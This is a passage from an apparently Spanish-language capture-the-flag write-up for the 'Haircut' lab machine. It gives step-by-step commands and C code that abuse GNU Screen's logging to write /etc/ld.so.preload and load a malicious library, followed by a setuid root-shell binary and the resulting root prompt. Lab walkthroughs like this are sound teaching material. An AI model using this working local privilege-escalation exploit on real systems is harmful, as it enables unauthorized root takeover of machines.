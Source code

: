 2 - Compilamos libhax.c:

```bash
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c

(No hacer caso de los warnings)
```

3 - Creamos el archivo "**rootshell**" con el editor:

```c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

4 - Compilamos rootshell.c:

```bash
gcc -o /tmp/rootshell /tmp/rootshell.c

(No hacer caso de los warnings
```

5 - Una vez tengamos la librería **libhax.so** y el binario **rootshell** compilados, los subimos a la máquina Haircut en el directorio **/tmp**. En la máquina Haircut ejecutamos:

```bash
www-data@haircut:~$ cd /etc
www-data@haircut:/etc$ umask 000
www-data@haircut:/etc$ screen -D -m -L ld.so.preload echo -ne  "\\x0a/tmp/libhax.so"
www-data@haircut:/etc$ screen -ls
```

6 - Por último ejecutamos el binario **rootshell** que hemos subido a la ruta **/tmp** y obtenemos shell de usuario **root**:

```bash
www-data@haircut:/etc$ /tmp/rootshell
root@haircut:/etc# whoami
root
root@haircut:/etc# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root@haircut:/etc#
```

### Root Flag

```bash
root@haircut:/root# wc -c root.txt 
33 root.txt
```

